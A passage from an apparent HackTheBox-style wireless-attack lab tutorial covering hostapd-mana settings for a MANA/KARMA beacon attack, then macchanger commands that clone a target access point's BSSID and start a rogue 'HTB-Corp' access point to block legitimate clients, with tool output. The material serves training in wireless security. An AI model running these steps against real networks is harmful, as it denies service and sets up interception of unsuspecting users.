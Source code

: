 <tr>
<td><code>enable_mana</code></td>
<td>Enables MANA mode, which is the KARMA beacon attack. This will help stations know that our access point exists, making transitions easier and our attack less intrusive.</td>
</tr>
<tr>
<td><code>Mana_loud</code></td>
<td>This option sets whether or not all beacons will be retransmitted to clients. If we are attempting to be stealthy, we could set this to zero.</td>
</tr>
<tr>
<td><code>wpa=2</code></td>
<td>Enables WPA2 security for the access point.</td>
</tr>
<tr>
<td><code>wpa_key_mgmt</code></td>
<td>Configures WPA2 with Pre-Shared Key (PSK) authentication.</td>
</tr>
<tr>
<td><code>rsn_pairwise</code></td>
<td>Specifies CCMP (AES) as the encryption method for WPA2.</td>
</tr>
<tr>
<td><code>wpa_passphrase</code></td>
<td>Sets the WPA2 PSK passphrase to "PSKmismatchmaker".</td>
</tr>
</tbody>
</table>
<p>Next, we use macchanger to modify the MAC address of the wlan1 interface, ensuring it matches the target AP's BSSID. This step is crucial for creating the MAC collision necessary to disrupt the legitimate AP's functionality.</p>
<pre><code class="language-shell-session">[!bash!]$ ifconfig wlan1 down
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ macchanger -m 9C:9A:03:39:BD:7A wlan1

Current MAC:   66:e9:37:38:1c:49 (unknown)
Permanent MAC: 66:e9:37:38:1c:49 (unknown)
New MAC:       9c:9a:03:39:bd:7a (unknown)
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ ifconfig wlan1 up
</code></pre>
<p>Now, to start the fake access point, we will use <a href="https://github.com/sensepost/hostapd-mana">hostapd-mana</a> which is an excellent tool for this purpose, as it supports <code>KARMA/MANA</code> attacks, negotiable EAP methods, and other valuable features. We use the command <code>hostapd-mana mac.conf</code> to start our fake access point. This rogue AP will generate collision events, effectively blocking legitimate clients from accessing the target access point.</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd-mana mac.conf
Configuration file: mac.conf
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 9C:9A:03:39:BD:7A and ssid "HTB-Corp"
random: Only 19/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED-&gt;ENABLED
wlan1: AP-ENABLED 
Unsupported authentication algorithm (3)
handle_auth_cb: STA 62:bd:99:a1:9e:1b not found
MANA - Directed probe request for SSID 'HTB-Corp' from 62:bd:99:a1:9e:1b
MANA - Directed probe request for SSID 'HTB-Corp' from 62:bd:99:a1:9e:1b
</code></pre>
<h3>2. Deploy an Open-Network AP</h3>